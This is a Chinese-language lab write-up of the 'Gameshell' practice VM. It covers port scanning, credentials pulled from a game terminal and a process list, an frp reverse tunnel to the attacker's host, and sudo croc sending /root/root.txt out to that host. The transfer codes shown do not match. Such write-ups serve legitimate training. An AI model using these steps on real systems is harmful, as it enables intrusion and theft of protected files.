

# Gameshell


这是第二个只靠自己打出来的靶机，作为里程碑。

## 信息收集

### 端口扫描

```sh
root@kali:/tmp/123# nmap 192.168.56.156 -p-                    
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-28 08:13 -0400
Nmap scan report for 192.168.56.156
Host is up (0.00055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7681/tcp open  unknown
MAC Address: 08:00:27:53:73:92 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.16 seconds
root@kali:/tmp/123# nmap 192.168.56.156 -p 22,80,7681 -sC -sV  
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-28 08:15 -0400
Nmap scan report for 192.168.56.156
Host is up (0.0011s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Bash // The Eternal Shell
7681/tcp open  http    ttyd 1.7.7-40e79c7 (libwebsockets 4.3.3-unknown)
|_http-title: ttyd - Terminal
|_http-server-header: ttyd/1.7.7-40e79c7 (libwebsockets/4.3.3-unknown)
MAC Address: 08:00:27:53:73:92 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.67 seconds
```

指纹信息识别：

* 22 : `ssh service`
* 80 : `http service`，apache/2.4.62 中间件，标题 ：`Bash // The Eternal Shell`
* 7681 : `基于HTTP的Web Terminal服务`，版本：`ttyd 1.7.7-40e79c7` ，标题：`ttyd - Terminal`

补充知识：

* `ttyd 1.7.7-40e79c7`  为 网页版终端工具，就是把`linux` 终端放到浏览器里面使用

### 目标主机开放端口服务分析

#### `80` 端口服务识别与分析

访问目录页面，页面的主要内容是关于shell发展史的，访问页面源码，没有发现任何隐藏信息，查看页面加载情况：

有两个响应包，第一个响应包为主响应包，第二个响应包为加载模板文件，分析第一个响应包的`http`响应头，没有发现任何突破性信息，对`80`端口进行目录枚举：

```sh
root@kali:/tmp/123# dirsearch -u http://192.168.56.156:80/                                                                             
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /tmp/123/reports/http_192.168.56.156_80/__26-04-28_09-00-31.txt

Target: http://192.168.56.156/

[09:00:31] Starting: 
[09:00:34] 403 -  279B  - /.ht_wsr.txt
[09:00:34] 403 -  279B  - /.htaccess.bak1
[09:00:34] 403 -  279B  - /.htaccess.orig
[09:00:34] 403 -  279B  - /.htaccess.sample
[09:00:34] 403 -  279B  - /.htaccess.save
[09:00:34] 403 -  279B  - /.htaccess_extra
[09:00:34] 403 -  279B  - /.htaccess_sc
[09:00:34] 403 -  279B  - /.htaccessBAK
[09:00:34] 403 -  279B  - /.htaccessOLD
[09:00:34] 403 -  279B  - /.htaccessOLD2
[09:00:34] 403 -  279B  - /.htm
[09:00:34] 403 -  279B  - /.html
[09:00:34] 403 -  279B  - /.htpasswd_test
[09:00:34] 403 -  279B  - /.htpasswds
[09:00:34] 403 -  279B  - /.httr-oauth
[09:00:35] 403 -  279B  - /.htaccess_orig
[09:00:36] 403 -  279B  - /.php
[09:01:45] 403 -  279B  - /server-status/
[09:01:45] 403 -  279B  - /server-status
```

没有扫到任何状态码为200的文件，我也换了较大一些的字典，依然没有扫出任何东西，80端口没有任何突破性进展，放弃对80端口的分析。

#### `7681` 端口服务识别与分析

7681 是 基于HTTP的Web Terminal服务：

```sh
  |                                                   |
--+---------------------------------------------------+--
  | Run the command                                   |
  |     $ gsh goal                                    |
  | to discover your first mission.                   |
  |                                                   |
  | You can check the mission has been completed with |
  |     $ gsh check                                   |
  |                                                   |
  | The command                                       |
  |     $ gsh help                                    |
  | displays the list of available (gsh) commands.    |
--+---------------------------------------------------+--
  |                                                   |
```

* `gsh goal`: 探寻你的第一个任务
* `gsh check`: 检查当前任务是否完成
* `gsh help`:  呈现可用的`gsh`命令列表

```sh
[mission 1] $ gsh help

  ,-------------------------------------------------------------------------------------.
 (_\                                                                                     \
    |  Commands specific to GameShell                                                     |
    |  ==============================                                                     |
    |                                                                                     |
    |  gsh check                                                                          |
    |    check whether the current mission's goal has been achieved or not                |
    |                                                                                     |
    |  gsh exit / Control-d                                                               |
    |    quit GameShell                                                                   |
    |    (you can start from the current mission by running GameShell with the "-C" flag) |
    |                                                                                     |
    |  gsh goal [N]                                                                       |
    |    show the current mission's goal                                                  |
    |    if n is given, show the goal for mission N                                       |
    |                                                                                     |
    |  gsh help                                                                           |
    |    shorter help message                                                             |
    |                                                                                     |
    |  gsh reset                                                                          |
    |    reset the current mission                                                        |
   _|                                                                                     |
  (_/_______________________________________________________________________________(*)___/
                                                                                     \\
                                                                                      ))
                                                                                      ^
```

* `gsh goal [N]`: 展示当前的任务，假如 `n` 被指定，展示第n个任务目标
* `gsh reset` :  重置当前的任务
* `gsh exit` :  退出`GameShell`

```sh
[mission 1] $ gsh 
check        exit         goal         help         index        log          reset        resetstatic  stat         version      welcome    
```

* Tab Tab 键，使得我们可以看到更多的命令

```sh
[mission 1] $ gsh index
->  1   basic/01_cd_tower
    2   basic/02_cd.._cellar
    3   basic/03_cd_HOME_throne
    4   basic/04_mkdir_chest
    5   basic/05_rm_spiders_cellar
    6   basic/06_mv_coins_garden
    7   basic/07_mv_hidden_coins_garden
    8   basic/08_rm_wildcard_spiders_cellar
    9   basic/09_rm_wildcard_hidden_spiders_cellar
   10   basic/10_cp_standard_great_hall
   11   basic/11_cp_wildcards_tapestries_great_hall
   12   basic/12_cp_ls_mtime_paintings_tower
   13   misc/01_cal_nostradamus  [optional]
   14   intermediate/01_alias_la
   15   misc/02_nano_journal
   16   intermediate/02_alias_journal
   17   intermediate/03_tab_spider_lair
   18   intermediate/04_bg_xeyes  [optional]
   19   intermediate/05_background
   20   intermediate/06_control-C
   21   finding_files_maze/01_ls_cd
   22   finding_files_maze/02_tree
   23   finding_files_maze/03_find_1
   24   pipe_intro_book_of_potions/01_head
   25   pipe_intro_book_of_potions/02_tail
   26   pipe_intro_book_of_potions/03_cat
   27   pipe_intro_book_of_potions/04_pipe
   28   pipe_intro_book_of_potions/05_pipe_head_tail
   29   processes/01_ps_kill
   30   processes/02_ps_kill_signal
   31   processes/03_pstree_kill
   32   stdin_stdout_stderr/01_stdin_additions
   33   stdin_stdout_stderr/02_stdin_redirection_multiplications
   34   stdin_stdout_stderr/03_stdout_redirection_inventory
   35   stdin_stdout_stderr/04_stderr_dev-null_grimoires
   36   stdin_stdout_stderr/05_stdout_stderr_redirection_merlin
   37   permissions/01_chmod_x_dir_king_quarter
   38   permissions/02_chmod_r_file_king_quarter
   39   permissions/03_chmod_rw_file_dir_throne_room
   40   finding_files_maze/04_find_2
   41   finding_files_maze/05_find_xargs_grep
   42   pipes_merchant_stall/01_pipe_1
   43   pipes_merchant_stall/02_pipe_2
   44   misc/03_tr_caesar_shift
   45   FINAL_MISSION
```

发现存在45个任务，我们看看第45个任务目标：

```sh
[mission 1] $ gsh goal 45

     _________________________________________________________________________________
    /\                                                                                \
(O)===)><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><)==(O)
    \/''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''/
    (                                                                                (
     )                                                                                )
    (   Congratulations!                                                             (
     )                                                                                )
    (   You have finished all the missions.                                          (
     )                                                                                )
    (   You can now quit GameShell, or go back to some old missions.                 (
     )                                                                                )
    (   Use ``gsh HELP`` to get a list of all GameShell commands.                    (
     )  The commands ``gsh index`` and ``gsh goto N`` are particularly interesting.   )
    (                                                                                (
     )  Note: the admin password has been changed to 'qwerty'.                        )
    (                                                                                (
     )                                                                                )
    (                                                                                (
    /\''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''\
(O)===)><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><)==(O)
    \/________________________________________________________________________________/
```

从最后一关提取的信息：可以通过`gsh goto N` 跳转到任意关卡，`gsh index` 查看当前的任务列表，这个命令上面已经实践过了。提示：admin的密码已经被设置为了qwerty。尝试进入第45个任务：

```sh
[mission 1] $ gsh goto 45
password: 

   \  :  /       \  :  /       \  :  /       \  :  /       \  :  /       \  :  /
`. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .'
_ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _
   /_   _\       /_   _\       /_   _\       /_   _\       /_   _\       /_   _\
 .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.
   /  |  \       /  :  \       /  :  \       /  :  \       /  :  \       /  |  \
      |                                                                     |
   \  |  /                                                               \  |  /
`. __/ \__ .'                                                         `. __/ \__ .'
_ _\     /_ _                                                         _ _\     /_ _
   /_   _\             CONGRATULATIONS!                                  /_   _\
 .'  \ /  `.                                                           .'  \ /  `.
   /  |  \                                                               /  |  \
      |                You have finished all the missions.                  |
   \  |  /                                                               \  |  /
`. __/ \__ .'          Here is your reward: <silo:siloqueen>          `. __/ \__ .'
_ _\     /_ _                                                         _ _\     /_ _
   /_   _\                                                               /_   _\
 .'  \ /  `.                                                           .'  \ /  `.
   /  |  \                                                               /  |  \
      |                                                                     |
   \  |  /       \  :  /       \  :  /       \  :  /       \  :  /       \  |  /
`. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .' `. __/ \__ .'
_ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _ _ _\     /_ _
   /_   _\       /_   _\       /_   _\       /_   _\       /_   _\       /_   _\
 .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.   .'  \ /  `.
   /  :  \       /  :  \       /  :  \       /  :  \       /  :  \       /  :  \


  |                                    |
--+------------------------------------+--
  | Use the command                    |
  |     $ gsh help                     |
  | to get the list of "gsh" commands. |
--+------------------------------------+--
  |                                    |
```

这里给我们了一个奖励：`Here is your reward: <silo:siloqueen>`。

```sh
[mission 45] $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
silo:x:1000:1000::/home/silo:/bin/bash
eviden:x:1001:1001::/home/eviden:/bin/bash
```

读取`/etc/passwd`发现：

* root
* silo
* eviden

这个奖励是silo的登陆凭证。

## 初始访问

```sh
root@kali:/tmp/123# ssh silo@192.168.56.156 -p 22
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
silo@192.168.56.156's password: 
Linux GameShell 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Apr 28 04:57:13 2026 from 192.168.56.101
silo@GameShell:~$ ls -al
total 16556
drwx------ 3 silo silo     4096 Apr 28 05:31 .
drwxr-xr-x 4 root root     4096 Nov 17 11:21 ..
lrwxrwxrwx 1 root root        9 Nov 17 11:25 .bash_history -> /dev/null
-rw-r--r-- 1 silo silo      220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 silo silo     3526 Apr 18  2019 .bashrc
-rwxr-xr-x 1 silo silo 16707768 Apr 28 05:31 frpc
-rw-r--r-- 1 silo silo      210 Apr 28 05:31 frpc.toml
-rw-r--r-- 1 silo silo      807 Apr 18  2019 .profile
-rwxr-xr-x 1 silo silo   207872 Apr 28 05:14 ss
drwxr-xr-x 2 silo silo     4096 Nov 18 08:53 .ssh
-rw-r--r-- 1 root root       44 Nov 17 11:16 user.txt
silo@GameShell:~$ cat user.txt
flag{user-83add0ab24dcdb4f7a201772f1c10789}
```

## `silo` 用户系统信息收集

从前面看到的`/etc/passwd`，可知有三个用户：

* root
* silo
* `eviden`

枚举拥有`suid`权位的文件： 

```sh
silo@GameShell:~$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47184 Apr  6  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Apr  6  2024 /usr/bin/su
-rwsr-xr-x 1 root root 34888 Apr  6  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 23448 Jan 13  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-- 1 root messagebus 51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 481608 Dec 21  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 19040 Jan 13  2022 /usr/libexec/polkit-agent-helper-1
```

没有发现能用于提权的二进制文件。查看`silo`用户的`sudo`：

```sh
silo@GameShell:~$ sudo -l
[sudo] password for silo: 
Sorry, user silo may not run sudo on GameShell.
```

查看 `capabilities` 能力位：

```sh
silo@GameShell:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

没有能突破文件系统权限的能力位。查看系统正在监听的 `TCP` 端口 和 `UDP` 端口：

```sh
silo@GameShell:~$ busybox netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 0.0.0.0:7681            0.0.0.0:*               LISTEN      
tcp        0      0 127.0.0.1:9876          0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      
tcp        0      0 :::80                   :::*                    LISTEN      
tcp        0      0 :::22                   :::*                    LISTEN      
udp        0      0 0.0.0.0:68              0.0.0.0:*                           
```

发现存在一个端口为9876的内网服务。

```sh
silo@GameShell:~$ ps -aux | grep eviden
eviden       401  0.0  0.0   1564  1016 ?        Ss   02:36   0:00 /usr/local/bin/ttyd -i 127.0.0.1 -p 9876 -c admin:nimda -W bash
silo         661  0.0  0.0   6176   636 pts/0    S+   03:01   0:00 grep eviden
```

查看进程，可以看出这是一个网页版的终端，用户名为`admin`，密码为`nimda`。

## 内网穿透

上传`frpc`，`frpc.toml` 到 内网靶机上，上传`frps`，`frps.toml` 到 `kali`攻击靶机上。

frpc.toml 的 格式为：

```toml
serverAddr = "192.168.56.101"
serverPort = 7000

auth.method = "token"
auth.token = "ChangeMe_Strong_Token_123"


[[proxies]]
name = "tcp"
type = "tcp"
localIP = "127.0.0.1"
localPort = 9876
remotePort = 39666
```

frps.toml 的 格式为:

```toml
bindAddr = "0.0.0.0"
bindPort = 7000

auth.method = "token"
auth.token = "ChangeMe_Strong_Token_123"

allowPorts = [
    { single = 39666 }
]
```

先运行frps，再运行frpc:

```sh
root@kali:/tmp/123# ./frps -c frps.toml
2026-04-29 04:20:08.348 [I] [frps/root.go:115] frps uses config file: frps.toml
2026-04-29 04:20:08.476 [I] [server/service.go:246] frps tcp listen on 0.0.0.0:7000
2026-04-29 04:20:08.476 [I] [frps/root.go:124] frps started successfully
# 这标明 frps 成功启动 kali终端
silo@GameShell:~$ ./frpc -c frpc.toml
2026-04-29 04:20:40.698 [I] [sub/root.go:201] start frpc service for config file [frpc.toml] with aggregated configuration
2026-04-29 04:20:40.707 [I] [client/service.go:378] try to connect to server...
2026-04-29 04:20:40.740 [I] [client/service.go:370] [1db339b68f3cb869] login to server success, get run id [1db339b68f3cb869]
2026-04-29 04:20:40.746 [I] [proxy/proxy_manager.go:180] [1db339b68f3cb869] proxy added: [tcp]
2026-04-29 04:20:40.774 [I] [client/control.go:176] [1db339b68f3cb869] [tcp] start proxy success
# 这标明frpc 成功启动 并且已经把端口代理到 192.168.56.101:39666 上。
```

## `eviden` 系统信息收集

```sh
eviden@GameShell:/$ id
uid=1001(eviden) gid=1001(eviden) groups=1001(eviden)
eviden@GameShell:/$ sudo -l
Matching Defaults entries for eviden on GameShell:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eviden may run the following commands on GameShell:
    (ALL) NOPASSWD: /usr/local/bin/croc
```

`croc` 用于在电脑之间轻松、安全的传输文件/文件夹的工具。

```sh
eviden@GameShell:/$ croc -h
NAME:
   croc - easily and securely transfer stuff from one computer to another

USAGE:
   croc [GLOBAL OPTIONS] [COMMAND] [COMMAND OPTIONS] [filename(s) or folder]

   USAGE EXAMPLES:
   Send a file:
      croc send file.txt

      -git to respect your .gitignore
   Send multiple files:
      croc send file1.txt file2.txt file3.txt
    or
      croc send *.jpg

   Send everything in a folder:
      croc send example-folder-name

   Send a file with a custom code:
      croc send --code secret-code file.txt

   Receive a file using code:
      croc secret-code

VERSION:
   v10.2.7

COMMANDS:
   send     send file(s), or folder (see options with croc send -h)
   relay    start your own relay (optional)
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --internal-dns          use a built-in DNS stub resolver rather than the host operating system (default: false)
   --classic               toggle between the classic mode (insecure due to local attack vector) and new mode (secure) (default: false)
   --remember              save these settings to reuse next time (default: false)
   --debug                 toggle debug mode (default: false)
   --yes                   automatically agree to all prompts (default: false)
   --stdout                redirect file to stdout (default: false)
   --no-compress           disable compression (default: false)
   --ask                   make sure sender and recipient are prompted (default: false)
   --local                 force to use only local connections (default: false)
   --ignore-stdin          ignore piped stdin (default: false)
   --overwrite             do not prompt to overwrite or resume (default: false)
   --testing               flag for testing purposes (default: false)
   --multicast value       multicast address to use for local discovery (default: "239.255.255.250")
   --curve value           choose an encryption curve (p521, p256, p384, siec, ed25519) (default: "p256")
   --ip value              set sender ip if known e.g. 10.0.0.1:9009, [::1]:9009
   --relay value           address of the relay [$CROC_RELAY]
   --relay6 value          ipv6 address of the relay [$CROC_RELAY6]
   --out value             specify an output folder to receive the file (default: ".")
   --pass value            password for the relay (default: "pass123") [$CROC_PASS]
   --socks5 value          add a socks5 proxy [$SOCKS5_PROXY]
   --connect value         add a http proxy [$HTTP_PROXY]
   --throttleUpload value  throttle the upload speed e.g. 500k
   --help, -h              show help (default: false)
   --version, -v           print the version (default: false)
```

## 权限提升

```sh
eviden@GameShell:/$ sudo croc -ip 192.168.56.101 send /root/root.txt
Sending 'root.txt' (44 B)        
Code is: 6322-bandit-caramel-block

On the other computer run:
(For Windows)
    croc 6322-bandit-caramel-block
(For Linux/macOS)
    CROC_SECRET="6322-bandit-caramel-block" croc 
# 靶机
root@kali:~# croc 1287-miracle-forest-sahara
Accept 'root.txt' (44 B)? (Y/n) y

Receiving (<-192.168.56.156:9009)
 root.txt 100% |████████████████████| (44/44 B, 961 B/s)
# kali
root@kali:~# cat root.txt                  
flag{root-fcf32fac298a31661e06e3d37148a21a}
```

## 攻击链总结

* 端口扫描发现：22、80、7681 三个端口，指纹识别：22 为 `ssh service`、80 为 `http service` 、7681 为 `ttyd service`。
* 80 端口 没有获取到任何信息，7681 部署了一个`gameshell`的服务，利用其中的一些逻辑漏洞获得了silo的ssh登陆凭证。
* 通过获取的silo用户进行系统信息枚举，发现存在一个内网服务，它也是一个网页版终端，它是以`eviden`用户身份运行的，用户名为`admin`，密码为`nimda`，通过内网穿透技术将其放到外网。
* 访问`192.168.56.101:39666`，以`eviden`用户身份进行信息的枚举，`sudo -l`，发现可以以root身份运行`croc`，通过`croc`下载`/root/root.txt`文件。

